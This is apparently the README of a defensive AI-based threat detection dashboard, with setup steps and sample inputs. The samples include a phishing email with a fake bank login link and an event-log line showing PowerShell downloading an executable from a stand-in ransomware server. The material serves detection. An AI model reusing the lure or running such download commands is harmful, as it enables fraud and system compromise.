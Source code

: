 <h1 align="center">🔐 AI-Powered Cybersecurity Threat Detection System 🚀</h1>

![Python](https://img.shields.io/badge/Python-3.9%2B-blueviolet) ![Streamlit](https://img.shields.io/badge/Streamlit-1.25%2B-brightgreen) ![Groq AI](https://img.shields.io/badge/Groq%20AI-Powered-blue)

## 🚀 Overview
This project is an **AI-powered cybersecurity tool** that analyzes text-based threats such as phishing emails, malicious network logs, and insider threats. It leverages the **Groq API** with the `qwen-2.5-32b` model and is built using **Python** and **Streamlit** for real-time security insights.

## 🔥 Features
- **Phishing Email Detection** – Identifies suspicious emails and malicious links.
- **Network Log Analysis** – Detects unusual login attempts and C2 traffic.
- **Insider Threat Monitoring** – Flags unauthorized access and data exfiltration.
- **Real-time Threat Intelligence** – Displays live security data.
- **User-Friendly Interface** – Interactive Streamlit dashboard.

## 🛠️ Installation & Setup
### 1️⃣ Clone the Repository
```bash
git clone https://github.com/your-username/AI-Powered-Cybersecurity-Threat-Detection-System.git
cd AI-Powered-Cybersecurity-Threat-Detection-System
```

### 2️⃣ Install Dependencies
```bash
pip install -r requirements.txt
```

### 3️⃣ Set Up Groq API Key
Edit the script and replace `"YOUR_GROQ_API_KEY"` with your actual API key:
```python
client = Groq(api_key="YOUR_GROQ_API_KEY")
```

### 4️⃣ Run the Application
```bash
streamlit run your_script.py
```

## 🎯 Usage
1. Open the Streamlit app.
2. Enter network logs, email content, or suspicious text.
3. Click **Analyze Threat** to get AI-driven security insights.
4. Review **live threat intelligence** in the dashboard.

## 📌 Example Test Cases
## 1️⃣ Phishing Email Detection
### 📩 Input (Phishing Email Example):
**Input:**
```
Subject: Urgent! Your Account Will Be Suspended  

Dear Customer,  

We have noticed suspicious activity on your account. Please verify your identity immediately by clicking the link below:  
🔗 http://secure-bank-login-verification.com  

Failure to do so within 24 hours will result in account suspension.  

Best,  
Bank Security Team

```
| **OUTPUT** 🚨 |
|------------------------------------------------------------------------------------------------------------------------|
| ![Phishing Email Detection_page-0001](https://github.com/user-attachments/assets/0b10fe7d-fba2-4b43-b9de-360d7756bf88) |


## 2️⃣ Malicious Network Activity (Log Analysis)
### 📜 Input (Suspicious Firewall Logs):
**Input:**
```
[WARNING] Multiple failed SSH login attempts detected from IP 185.220.101.25  
[ALERT] Unusual traffic detected from internal server to 145.34.76.98 on port 4444 (Common C2 channel)  

```
| **OUTPUT** 🚨 |
|-----------------------------------------------------------------------------------------------------------------------------------------|
| ![Malicious Network Activity (Log Analysis)_page-0001](https://github.com/user-attachments/assets/465eaf06-484e-4019-b1e6-f786581eed57) |

## 3️⃣ Ransomware Attack Alert (Security Log Review)
### 📄 Input (Windows Event Log from a Compromised System):
**Input:**
```
Event ID 4688: New process created - C:\Users\Public\decrypt_files.exe  
Event ID 5145: Network file access by process - \\shared_drive\important_files\  
Event ID 4104: PowerShell script execution - Invoke-WebRequest http://malicious-ransomware-server.com/download.exe  

```
| **OUTPUT** 🚨 |
|---------------------------------------------------------------------------------------------------------------------------------------------|
| ![Ransomware Attack Alert (Security Log Review)_page-0001](https://github.com/user-attachments/assets/1f32947b-eed1-4b38-9790-1b56240e4189) |

## 4️⃣ Data Exfiltration via Suspicious Email Attachment
### 📩 Input (Email with Potentially Malicious Attachment):
**Input:**
```
Subject: Important Update - Invoice Attached  

Hello,  

Please find the invoice attached for your review. Let us know if you have any questions.  

Regards,  
John Doe  
Attachment: invoice_12345.zip  

```
| **OUTPUT** 🚨 |
|-------------------------------------------------------------------------------------------------------------------------------------------------|
| ![Data Exfiltration via Suspicious Email Attachment_page-0001](https://github.com/user-attachments/assets/e1cc6b79-e752-4686-915e-2fcf25367d2d) |

## 5️⃣ Insider Threat (Suspicious Employee Activity)
### 📝 Input (Unusual File Transfers Logged in SIEM)
**Input:**
```
User: Alice from HR  
Action: Downloaded 100+ sensitive files from HR database  
Time: 2:30 AM (Non-working hours)  
Destination: External USB drive detected  

```
| **OUTPUT** 🚨 |
|---------------------------------------------------------------------------------------------------------------------------------------------|
| ![Insider Threat (Suspicious Employee Activity)_page-0001](https://github.com/user-attachments/assets/36248013-944f-4b6c-bb12-73ce915108f2) |



## 🤝 Contributing
Feel free to **fork** the repository, submit **issues**, or contribute **pull requests** to improve the project.

## 🔗 Contact & Support
Have questions or suggestions? Feel free to reach out:

- 📧 [Email](mailto:gauravghandat12@gmail.com)
- 💼 [LinkedIn](www.linkedin.com/in/gaurav-ghandat-68a5a22b4)

---
🚀 **Stay Secure & Keep Hacking Ethically!** 🔥

